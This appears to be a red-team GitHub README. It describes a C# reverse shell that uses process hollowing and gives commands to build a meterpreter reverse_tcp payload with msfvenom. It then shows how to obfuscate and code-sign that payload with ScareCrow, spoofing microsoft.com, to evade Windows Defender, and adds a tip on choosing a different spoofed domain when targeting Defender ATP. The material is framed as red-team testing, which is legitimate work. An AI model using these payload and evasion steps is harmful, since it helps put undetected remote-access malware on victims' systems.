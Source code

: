 # redteam

## source-codes
***reverse-shell-hollowing.cs*** - This C# code executes a reverse shell using the Process Hollowing technique, where a victim process is created in a suspended state, its original process (e.g.: notepad.exe) is carved out from memory, a malicious binary gets written instead and the program state is resumed to execute the injected code.</br> 
You can compile it with `mcs hollowing.cs`

## Useful Commands

***ScareCrow*** - This framework generates a "obfuscated" binary using some bypass techniques like DLL unhooking, ETW patching and Code signing(The same as ***limelighter*** does).</br> Example of usage:</br> You can generate a malicious binary and test in your windows vm if it is detected by windows defender:</br> `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IP LPORT=443 -f raw -o malware.bin`</br> Then, use ScareCrow to generate obfuscated versions:</br> `./ScareCrow -I malware.bin -domain www.microsoft.com -encryptionmode AES` (You can change the encryption mode to ELZMA)</br>
>  When signing the loader with microsoft.com, using them against WINDOWS DEFENDER ATP products may not be as effective as they can validate the cert as it belongs to them. If you are using a loader against a windows product, possibly use a different domain.</br>
